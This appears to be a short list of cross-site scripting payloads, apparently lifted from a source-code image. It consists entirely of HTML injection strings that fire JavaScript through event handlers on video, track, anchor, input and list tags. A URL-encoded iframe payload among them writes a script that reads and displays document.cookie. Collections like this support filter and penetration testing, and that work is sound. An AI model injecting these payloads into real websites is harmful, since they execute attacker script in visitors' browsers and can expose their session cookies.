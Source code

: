 <video onloadstart=alert(1)><source>
<video><source onerror=alert(1) src=1></video>
<video><track default onload=alert(1) src="data:text/vtt,WEBVTT"></video>
<a onmouseenter="alert(1)">test</a>
<a onmousehover="alert(1)">test</a>
<a onmouseout="alert(1)">test</a>
<a onmouseover="alert(1)">test</a>
<a onmouseleave="alert(1)">test</a>
<a onmousemove="alert(1)">test</a>
<a onmouseup="alert(1)">test</a>
<xss   onfocusout=alert(1)></xss><input autofocus>
<iframe id=%22ifra%22 src=%22/%22></iframe> <script>ifr = document.getElementById('ifra'); ifr.contentDocument.write(%22<scr%22 %2b %22ipt>top.foo = Object.defineProperty</scr%22 %2b %22ipt>%22); foo(window, 'Safe', {value:{}}); foo(Safe, 'get', {value:function() {    return document.cookie }}); alert(Safe.get());</script>
<ul onbeforecopy="alert(1)" contenteditable>test</ul>